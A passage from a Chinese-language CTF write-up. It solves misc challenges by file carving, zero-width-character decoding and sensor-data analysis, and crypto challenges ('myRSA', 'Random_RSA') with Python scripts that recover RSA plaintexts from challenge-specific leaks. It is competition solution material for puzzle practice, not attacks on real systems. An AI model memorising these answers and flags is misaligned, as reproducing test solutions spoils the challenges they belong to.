-0655635.png)

### 鸣雏恋

binwalk提取doc文件，有一个压缩包，找到key里面有线索，是零宽字节，解出密码。

压缩包还有一个压缩包，用密码解压得十二万个图片，可以猜想为二进制即01或者黑白，用脚本转换为了二进制得flag。

.png)

```python
white = open(r'C:\Users\Administrator\Desktop\鸣雏恋_2dad763070b79f50c4635a906359909a\鸣雏恋\_rels\love\out\0.png', 'rb').read()
black = open(r'C:\Users\Administrator\Desktop\鸣雏恋_2dad763070b79f50c4635a906359909a\鸣雏恋\_rels\love\out\1.png', 'rb').read()
#注意要填文件真实的地址
flag = ''
 
for i in range(129488):
    color = open(r'C:\Users\Administrator\Desktop\鸣雏恋_2dad763070b79f50c4635a906359909a\鸣雏恋\_rels\love\out\%d.png'%i, 'rb').read()
    if(color == white):
        flag += '0'
    else:
        flag += '1'
#把二进制数转为字符串
ans = ''
length = len(flag)//8
for i in range(length):
    ans += chr(int(flag[i*8: (i+1)*8], 2))
 
print(ans)
```

输出得二进制字符串
-0655711.png)

转字符串

根据提示，base64转hex，另存为png

-0655729.png)

得到flag

-0655740.png)

### ChieftainsSecret

binwalk 出一个压缩包

得到一张图片和一个csv TLE5501角度传感器，可以看到接口的对应关系通过 pc1-pc2 pc3-pc4  算出具体角度最后通过角度偏移得到打电话的数字

-0655796.png)

77085962457

## Crypto

### myRSA

等了一年终于连上了远程，直接拿flag

```python
from Crypto.Util.number import *
import gmpy2

n = 109291726712521562723217799066595465738514008562793813124735859077003607567378308344900227726005943523435691922275823930699185558905584992475684350943587216218159563567105178716429607251904576481331913955542279314418005710062312937628773101937560276030946008602896333498620895794065652328753887107382421236463

# 发送b'\x01'的数据
m1 = 9525397945159597083139236796554389057349388348561320860497256507608704178409073111423041648854415731502829246163813817887013295691211115103559158067048812940460342194773168560663306267552081548022969259450140126995928980812391022443278295051940120607312916391873625551459919069565401135463687861822761080960205441980160935262098587017605666572800848834634719283023350989003155672616785656418280486284252404327230995895334350449329496820373234495050858491300214136


flag = 84714851061101551104842512208187516497690941059475723791750410942286241438698723551108297972855709502813510704312734246065654513821412192005193874395178433209848447807820345594430525933303605443157096791247595647420106894826618667916444279408290598367546651937728210043377385005880582654352783857030860269528710293017844982383988131043975713555798776601699577367436001411779466011751454954293920819863328114688953193568821221654373376635664655139419988801273771425680451278262871578890722408740436473781164730132065673797985283333324587469932990362283302547046173192527601753522974618089085155465973571933897481911626440582347862648387324192155488169555320343590638542052353093371100231443955010712018714258942911513526907631585015690345636535765895659959658571378505136

t = gmpy2.iroot(m1,3)[0]
# print(t)
while gmpy2.iroot(t*t-4*n,2)[1] == False:
    t = t-1

t2 = gmpy2.iroot(t*t-4*n,2)[0]
p = (t+t2)//2
q = n//p
x = p**2 * (p + 3*q - 1 ) + q**2 * (q + 3*p - 1) 
y = 2*p*q + p + q
c = (flag//(x+y))
d = inverse(65537, (p-1) * (q-1))
print(long_to_bytes(pow(c,d,n)))
```

.png)

### Random_RSA

懒得开虚拟机，python2没有密码库，所以上面是用python2跑出来的dp，下面解密用的python3。

ps:这个题好像必须得用python2跑dp，py3的MT算法似乎参数有点不同，跑出来的数据也不同。

```python
# import random
# import binascii
# import os

# tmp = [[58, 53, 122], [145, 124, 244], [5, 19, 192], [255, 23, 64], [57, 113, 194], [246, 205, 162], [112, 87, 95], [215, 147, 105], [16, 131, 38], [234, 36, 46], [68, 61, 146], [148, 61, 9], [139, 77, 32], [96, 56, 160], [121, 76, 17], [114, 246, 92], [178, 206, 60], [168, 147, 26], [168, 41, 68], [24, 93, 84], [175, 43, 88], [147, 97, 153], [42, 94, 45], [150, 103, 127], [68, 163, 62], [165, 37, 89], [219, 248, 59], [241, 182, 8], [140, 211, 146], [88, 226, 2], [48, 150, 56], [87, 109, 255], [227, 216, 65], [23, 190, 10], [5, 25, 64], [6, 12, 124], [53, 113, 124], [255, 192, 158], [61, 239, 5], [62, 108, 86], [123, 44, 64], [195, 192, 30], [30, 82, 95], [56, 178, 165], [68, 77, 239], [106, 247, 226], [17, 46, 114], [91, 71, 156], [157, 43, 182], [146, 6, 42], [148, 143, 161], [108, 33, 139], [139, 169, 157], [71, 140, 25], [28, 153, 26], [241, 221, 235], [28, 131, 141], [159, 111, 184], [47, 206, 11], [220, 152, 157], [41, 213, 97], [4, 220, 10], [77, 13, 248], [94, 140, 110], [25, 250, 226], [218, 102, 109], [189, 238, 66], [91, 18, 131], [23, 239, 190], [159, 33, 72], [183, 78, 208], [209, 213, 101], [111, 50, 220], [166, 104, 233], [170, 144, 10], [187, 87, 175], [195, 59, 104], [165, 179, 179], [99, 247, 153], [195, 61, 100], [223, 159, 165], [230, 93, 184], [87, 28, 35], [35, 122, 38], [158, 188, 163], [229, 192, 222], [12, 12, 192], [207, 95, 224], [127, 113, 137], [22, 114, 143], [13, 45, 144], [70, 140, 211], [57, 101, 42], [132, 62, 129], [40, 128, 124], [1, 132, 161], [164, 33, 133], [252, 201, 32], [8, 18, 247], [1, 88, 55], [201, 135, 186], [101, 254, 125], [236, 196, 39], [148, 24, 103], [101, 29, 253], [97, 156, 64], [90, 103, 91], [50, 48, 80], [206, 22, 93], [11, 114, 174], [61, 132, 247], [215, 32, 232], [95, 128, 90], [57, 35, 228], [163, 143, 107], [178, 250, 28], [64, 107, 225], [106, 115, 207], [85, 134, 21], [118, 201, 76], [234, 34, 22], [241, 236, 122], [111, 185, 127], [1, 26, 164], [254, 57, 117], [243, 27, 32], [161, 88, 80], [50, 165, 93], [87, 182, 216], [184, 159, 63], [167, 166, 123], [37, 78, 33], [186, 81, 58], [48, 3, 239], [70, 186, 13], [56, 108, 178], [54, 55, 235], [105, 180, 105], [16, 194, 98], [136, 11, 41], [18, 203, 79], [185, 114, 170], [148, 181, 223], [118, 57, 160], [23, 250, 181], [235, 219, 228], [44, 151, 38], [185, 224, 134], [42, 162, 122], [3, 9, 158], [129, 245, 2], [66, 241, 92], [80, 124, 36]]
# res = [55, 5, 183, 192, 103, 32, 211, 116, 102, 120, 118, 54, 120, 145, 185, 254, 77, 144, 70, 54, 193, 73, 64, 0, 79, 244, 190, 23, 215, 187, 53, 176, 27, 138, 42, 89, 158, 254, 159, 133, 78, 11, 155, 163, 145, 248, 14, 179, 23, 226, 220, 201, 5, 71, 241, 195, 75, 191, 237, 108, 141, 141, 185, 76, 7, 113, 191, 48, 135, 139, 100, 83, 212, 242, 21, 143, 255, 164, 146, 119, 173, 255, 140, 193, 173, 2, 224, 205, 68, 10, 77, 180, 24, 23, 196, 205, 108, 28, 243, 80, 140, 4, 98, 76, 217, 70, 208, 202, 78, 177, 124, 10, 168, 165, 223, 105, 157, 152, 48, 152, 51, 133, 190, 202, 136, 204, 44, 33, 58, 4, 196, 219, 71, 150, 68, 162, 175, 218, 173, 19, 201, 100, 100, 85, 201, 24, 59, 186, 46, 130, 147, 219, 22, 81]
# seeds = [4827, 9522, 552, 880, 7467, 7742, 9425, 4803, 6146, 4366, 1126, 4707, 1138, 2367, 1081, 5577, 4592, 5897, 4565, 2012, 2700, 1331, 9638, 7741, 50, 824, 8321, 7411, 6145, 1271, 7637, 5481, 8474, 2085, 2421, 590, 7733, 9427, 3278, 5361, 1284, 2280, 7001, 8573, 5494, 7431, 2765, 827, 102, 1419, 6528, 735, 5653, 109, 4158, 5877, 5975, 1527, 3027, 9776, 5263, 5211, 1293, 5976, 7759, 3268, 1893, 6546, 4684, 419, 8334, 7621, 1649, 6840, 2975, 8605, 5714, 2709, 1109, 358, 2858, 6868, 2442, 8431, 8316, 5446, 9356, 2817, 2941, 3177, 7388, 4149, 4634, 4316, 5377, 4327, 1774, 6613, 5728, 1751, 8478, 3132, 4680, 3308, 9769, 8341, 1627, 3501, 1046, 2609, 7190, 5706, 3627, 8867, 2458, 607, 642, 5436, 6355, 6326, 1481, 9887, 205, 5511, 537, 8576, 6376, 3619, 6609, 8473, 2139, 3889, 1309, 9878, 2182, 8572, 9275, 5235, 6989, 6592, 4618, 7883, 5702, 3999, 925, 2419, 7838, 3073, 488, 21, 3280, 9915, 3672, 579]

# dp = bytearray()
# for i in range(0, len(seeds)):
#     random.seed(seeds[i])
#     rands = []
#     for j in range(0,4):
#         rands.append(random.randint(0,255))
#     print(str(rands))

#     dp.append(res[i] ^ rands[i%4])
# print(dp)

from Crypto.Util.number import *
import gmpy2

dp = 5372007426161196154405640504110736659190183194052966723076041266610893158678092845450232508793279585163304918807656946147575280063208168816457346755227057
def decrypt(e, dp, n):
    _ = dp * e - 1
    for i in range(1, e):
        if not _ % i:
            p = _ // i + 1
            if not n % p:
                q = n // p
                phi = (p - 1) * (q - 1)
                d = int(gmpy2.invert(e, phi))
                return d

n=81196282992606113591233615204680597645208562279327854026981376917977843644855180528227037752692498558370026353244981467900057157997462760732019372185955846507977456657760125682125104309241802108853618468491463326268016450119817181368743376919334016359137566652069490881871670703767378496685419790016705210391
ct=61505256223993349534474550877787675500827332878941621261477860880689799960938202020614342208518869582019307850789493701589309453566095881294166336673487909221860641809622524813959284722285069755310890972255545436989082654705098907006694780949725756312169019688455553997031840488852954588581160550377081811151

e = 0x10001

d = decrypt(e, dp, n)
print(long_to_bytes(pow(ct, d, n)))
```


